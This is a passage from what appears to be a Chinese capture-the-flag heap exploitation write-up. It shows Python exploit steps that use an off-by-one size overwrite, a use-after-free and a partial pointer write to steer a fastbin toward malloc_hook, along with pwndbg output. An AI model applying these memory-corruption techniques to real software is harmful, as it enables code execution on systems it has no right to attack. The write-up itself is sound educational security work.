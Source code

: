 釋放掉 `B` , 然後分配同樣大小再次分配到 `B` , 此時 `B+0x10` 和 `B+0x18` 中有 `main_arean` 的地址。分配 `3` 個 `fastbin` ，利用 `off by one` 修改 `B->size = 0x71`

```
free(1)
create(0xc8,1)

create(0x65,3)  # b
create(0x65,15)
create(0x65,18)

over = "A"*0x18  # off by one
over += "\x71"  # set chunk  1's size --> 0x71
edit(0,over)
info("利用 off by one ,  chunk  1's size --> 0x71")
```

生成兩個 `fastbin` ，然後利用 `uaf` ，部分地址寫，把 `B` 鏈入到 `fastbin`

 

```py
free(2)
free(3)
info("創建兩個 0x70 的 fastbin")
heap_po = "\x20"
edit(3,heap_po)
info("把 chunk'1 鏈入到 fastbin 裏面")

```

調試看看此時 `fastbin` 的狀態

 

```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757160 —▸ 0x555555757020 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x7ffff7dd1b78
0x80: 0x0
```

> `0x555555757020` 就是 `chunk B`

 然後通過修改 `B->fd` 的低 `2` 字節， 使得 `B->fd= malloc_hook - 0x23`

 

```
# malloc_hook 上方
malloc_hook_nearly = "\xed\x1a"
edit(1,malloc_hook_nearly)
info("部分寫，修改 fastbin->fd ---> malloc_hook")

```
